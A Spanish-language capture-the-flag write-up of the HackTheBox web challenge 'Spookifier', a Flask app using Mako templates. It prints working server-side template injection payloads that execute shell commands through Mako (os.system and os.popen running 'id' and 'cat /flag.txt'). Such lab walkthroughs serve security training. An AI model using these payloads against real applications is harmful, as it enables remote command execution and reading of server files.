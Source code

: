 ```yaml
---
title: "HackTheBox - Challenge Spookifier"
summary: "Vamos a ver el paso a paso detallado de como ir resolviendo el challenge:"
date: "2025-04-01"
draft: false
tags:
- Tutorial
- HackTheBox
- Challenge
- Web
---
```


### Paso a paso:


- Enciendo el entorno virtual y entro a la direccion que me proporcionan: 
    ![Test Relative Image](./imagen.png)

<div style="height: 5px;"></div>

- Descargo el archivo .zip que me dan para el ejercicio.

<div style="height: 5px;"></div>

- Lo muevo a mi carpeta de trabajo.

<div style="height: 5px;"></div>

- Y lo descomprimo usando unzip, acordarse que la contrasena siempre va a ser 
    "hackthebox": 
    ![Test Relative Image](./imagen2.png)

<div style="height: 5px;"></div>

- Entro al archivo y empiezo a mirar:
```js
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge]
└─# ls
crypto_alphascii_clashing  plasma  rev_graverobber  rev_spookypass   web_spookifier
                                                                                                                             
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge]
└─# cd web_spookifier
                                                                                                             
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge/web_spookifier]
└─# ls
build-docker.sh  challenge  config  Dockerfile  flag.txt
```

<div style="height: 5px;"></div>

- En dockerfile veo que me dice que la flag esta en el directorio /flag.txt:
```js
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge/web_spookifier]
└─# cat Dockerfile   
FROM python:3.8-alpine

RUN apk add --no-cache --update supervisor gcc
# Upgrade pip
RUN python -m pip install --upgrade pip

# Install dependencies
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0

# Copy flag
COPY flag.txt /flag.txt

# Setup app
RUN mkdir -p /app

# Switch working environment
WORKDIR /app

# Add application
COPY challenge .

# Setup supervisor
COPY config/supervisord.conf /etc/supervisord.conf

# Expose port the server is reachable on
EXPOSE 1337

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# start supervisord
ENTRYPOINT ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"] 
```

<div style="height: 5px;"></div>

- Además veo que usa python y una distro de python que es mako.

<div style="height: 5px;"></div>

- Busco PayloadsAllTheThings, que es un directorio de payloads.

<div style="height: 5px;"></div>

- Entro a Server Side Template Injection y busco una versión mas vieja para 
    que este mas ordenado.

<div style="height: 5px;"></div>

- Empiezo a probar payloads y descubro que:
    ${self.module.runtime.util.os.system("id")}

<div style="height: 5px;"></div>

- Pareciera funcionar y le cambio por :
    ${self.module.runtime.util.os.popen('id').read()}

<div style="height: 5px;"></div>

- Como en dockerfile decia que la flag estaba en el directorio /flag le hago un cat:
    ${self.module.runtime.util.os.popen('cat /flag.txt').read()}

<div style="height: 5px;"></div>

- Y descubro la flag:
    ![Test Relative Image](./imagen5.png)